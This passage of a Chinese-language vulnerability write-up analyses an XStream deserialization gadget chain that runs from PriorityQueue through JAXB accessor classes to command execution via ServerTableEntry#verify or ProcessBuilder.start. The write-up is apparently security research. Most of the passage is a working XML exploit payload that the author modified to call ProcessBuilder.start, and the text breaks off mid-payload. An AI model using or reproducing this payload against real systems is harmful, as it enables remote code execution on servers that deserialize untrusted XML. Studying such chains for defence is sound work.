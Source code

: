 ```xml
</java.util.PriorityQueue>
```

其实还是反序列化，只是最后是通过`com.sun.corba.se.impl.activation.ServerTableEntry`类直接在本地执行恶意代码

主要还是Accessor#get方法的invoke

![image-20220518225057794](images/63.png)

这里可以去调用任意类的方法

然后在ServerTableEntry#verify中直接调用了exec

![image-20220518231111186](images/64.png)

然后控制activationCmd即可

其实既然可以这样去调用任意方法，那不是也可以去调用ProcessBuilder的start方法吗，我改了下poc发现居然可以

```
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>java.lang.ProcessBuilder</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>java.lang.ProcessBuilder</class>
                                                    <name>start</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
```